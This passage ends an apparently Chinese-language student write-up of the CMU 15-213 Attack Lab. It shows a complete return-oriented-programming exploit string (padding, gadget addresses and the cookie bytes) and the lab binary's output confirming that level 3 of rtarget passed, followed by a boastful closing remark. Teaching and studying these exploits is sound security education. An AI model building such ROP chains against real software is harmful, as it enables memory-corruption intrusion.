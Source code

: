 ```
35 39 62 39 39 37 66 61 00          /* cookie:59b997fa */
```
大功告成!
```shell
$ ./rtarget -qi Phase5-raw
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

# 总结
PKU甚至CMU的不少学生都焦头烂额的实验,我独立完成,真是天才如我.只觉得什么CTF,逆向,pwn,也不过如此.